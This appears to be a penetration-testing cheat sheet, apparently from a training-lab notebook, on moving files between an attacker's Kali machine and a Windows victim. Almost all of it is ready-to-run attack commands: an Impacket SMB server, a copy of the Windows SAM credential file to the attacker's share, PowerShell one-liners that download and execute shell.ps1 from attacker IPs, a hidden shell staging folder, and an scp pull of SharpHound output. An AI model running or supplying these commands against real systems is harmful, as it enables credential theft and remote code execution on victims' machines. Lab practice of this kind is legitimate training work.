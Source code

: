 ### SMB
On Kali setup SMB:
```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py ShareName SharePath

# Authenticated SMB server

smbserver.py share /. -smb2support -username df -password df

# Connect 
net use \\10.10.14.20\share  /u:df df

# After authentication with server you dont need to use them everytime only with net use

copy abc \\10.10.14.20\share\abc
```

Victim machine:
```cmd
copy \\[Kali_IP]\share\putty.exe 
```

For validation on vicrtim machine run:
```bash
# Attach share folders
net use \\[Kali_IP]\share
# Show share folders 
net use
# Copy files between Kali to Victim
copy \\[Kali_IP]\share\putty.exe
# Copy files between Victim to Kali
copy C:\Windows\Repair\SAM \\[Kali_IP]\share\
```

### Powershell
On victim machine:
```powershell
Powershell.exe invoke-webrequest -Uri http://10.10.14.28/bfill.exe -OutFile bfill.exe
```

**Download and execute ps1**

```powershell
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1') 
# or 
powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14/shell.ps1')"

```


## Shell placement Location (Old statging method)
`c:\windows\system32\spool\drivers\color`

## If policy blocks then on attacker machine
`scp <AD Username>@THMJMP1.za.tryhackme.com:C:/Users/<AD Username>/Documents/<Sharphound ZIP> .`
